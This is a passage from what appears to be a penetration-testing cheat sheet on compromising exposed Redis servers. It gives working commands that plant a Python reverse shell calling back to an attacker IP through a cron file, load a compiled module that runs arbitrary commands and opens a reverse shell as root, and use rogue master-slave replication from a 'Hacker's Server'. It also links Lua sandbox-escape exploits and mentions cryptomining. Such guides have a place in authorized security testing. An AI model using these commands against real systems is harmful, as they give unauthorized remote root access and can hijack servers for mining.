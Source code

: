 ```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
The last example is for Ubuntu, for **Centos**, the above command should be: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Load Redis Module

1. Following the instructions from [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) you can **compile a redis module to execute arbitrary commands**.
2. Then you need some way to **upload the compiled** module
3. **Load the uploaded module** at runtime with `MODULE LOAD /path/to/mymodule.so`
4. **List loaded modules** to check it was correctly loaded: `MODULE LIST`
5.  **Execute** **commands**:

```
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```
6. Unload the module whenever you want: `MODULE UNLOAD mymodule`

### LUA sandbox bypass

[**Here**](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) you can see that Redis uses the command **EVAL** to execute **Lua code sandboxed**. In the linked post you can see **how to abuse it** using the **dofile** function, but [apparently](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) this isn't no longer possible. Anyway, if you can **bypass the Lua** sandbox you could **execute arbitrary** commands on the system. Also, from the same post you can see some **options to cause DoS**.

Some **CVEs to escape from LUA**:

* [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### Master-Slave Module

​The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.
```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```